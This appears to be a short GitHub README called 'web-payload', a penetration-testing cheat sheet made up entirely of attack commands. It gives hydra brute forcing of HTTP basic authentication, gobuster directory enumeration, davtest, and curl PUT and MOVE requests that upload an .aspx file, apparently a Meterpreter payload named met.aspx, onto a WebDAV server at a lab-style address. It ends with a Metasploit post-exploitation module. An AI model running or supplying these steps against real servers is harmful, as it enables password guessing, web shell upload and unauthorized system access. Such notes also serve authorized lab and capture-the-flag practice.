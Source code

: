 # web-payload  
Portal for any payload  
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html  `  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
